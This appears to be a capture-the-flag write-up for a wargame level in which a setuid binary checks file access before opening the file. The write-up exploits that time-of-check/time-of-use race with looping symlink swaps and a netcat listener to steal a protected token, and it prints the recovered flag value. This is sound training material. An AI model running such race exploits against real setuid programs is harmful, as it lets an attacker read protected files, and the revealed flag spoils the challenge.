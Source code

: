 # Level10

## Context
We found `level10` executable file and ```token``` file in our home.
```
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Usage of level10:
```
./level10 file host
	sends file to host if you have access to it
```

We can make it work by launching these 2 commands in 2 seperate terminals:
```
nc -l 6969
```

```
./level10 file 0.0.0.0
```

Simple program explanation
 * ./level check with access if we have read rights to file (which we don't for `token`)
 * It then opens it (it can open `token`) and sends it to host

## Resolution
 * We use a symbolic link as file, which we constantly switch between `token` and a file we got access to.
 * We can do this by launching these 3 commands at the same in different terminals:
```sh
while true; do ln -sf /home/user/level10/token /var/crash/bg_du_75 && ln -sf /home/user/level10/level10 /var/crash/bg_du_75; done
```

```sh
while true; do nc -l 6969; done
```

```sh
while true; do ./level10 /var/crash/bg_du_75 0.0.0.0; done
```

 * We then get `woupa2yuojeeaaed06riuj63c` which can be use for flag10 AND flag11 !!!!
